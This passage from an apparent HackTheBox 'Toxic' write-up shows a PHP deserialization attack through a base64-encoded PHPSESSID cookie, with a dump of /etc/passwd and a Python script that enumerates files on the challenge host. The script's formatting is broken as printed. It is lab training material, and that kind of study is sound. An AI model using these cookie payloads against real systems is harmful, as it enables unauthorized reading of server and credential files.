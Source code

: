 In regards to the last two lines of the file, it was found that upon inputting a nonexistent file (or a file that cannot be read due to lack of permissions), the html output contained 0 bytes of data. Now, instead of tediously base64 encoding the cookie and putting it into BurpSuite, the python script can be run instead to quickly perform this task:

{% highlight bash %}
┌─\[0xd4y@Writeup\]─\[~/business/hackthebox/challenges/web/toxic\]  
└──╼ $python3 fileread.py  
$ /etc/passwd  
root:x:0:0:root:/root:/bin/ash  
bin:x:1:1:bin:/bin:/sbin/nologin  
daemon:x:2:2:daemon:/sbin:/sbin/nologin  
adm:x:3:4:adm:/var/adm:/sbin/nologin  
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin  
sync:x:5:0:sync:/sbin:/bin/sync  
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown  
halt:x:7:0:halt:/sbin:/sbin/halt  
mail:x:8:12:mail:/var/mail:/sbin/nologin  
news:x:9:13:news:/usr/lib/news:/sbin/nologin  
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin  
operator:x:11:0:operator:/root:/sbin/nologin  
man:x:13:15:man:/usr/man:/sbin/nologin  
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin  
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin  
ftp:x:21:21::/var/lib/ftp:/sbin/nologin  
sshd:x:22:22:sshd:/dev/null:/sbin/nologin  
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin  
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin  
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin  
games:x:35:35:games:/usr/games:/sbin/nologin  
cyrus:x:85:12::/usr/cyrus:/sbin/nologin  
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin  
ntp:x:123:123:NTP:/var/empty:/sbin/nologin  
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin  
guest:x:405:100:guest:/dev/null:/sbin/nologin  
nobody:x:65534:65534:nobody:/:/sbin/nologin  
www:x:1000:1000:1000:/home/www:/bin/sh
{% endhighlight %}

From the output of the /etc/passwd file, two particular entries can be seen: the root user is running /bin/ash instead of the normal /bin/bash (this may be to prevent users from getting to root unless it is aliased to something), and there is a local user named www running /bin/sh.

### Local File Enumeration

A second python script was created to quickly enumerate the local files on the system:

{% highlight python %}
import requests
from base64 
import b64encode

for f in open("lfi.txt","r").readlines():  
     
   payload = '''O:9:"PageModel":1:{s:4:"file";s:%d:"%s";}''' % (len(f.rstrip()),f.rstrip())  
   payload = b64encode(payload.encode())  
   cookies = { "PHPSESSID" : payload.decode() }  
   html = requests.get("http://167.99.88.212:30746",cookies=cookies).text   if len(html) > 0:  
       print(f.strip())
{% endhighlight %}
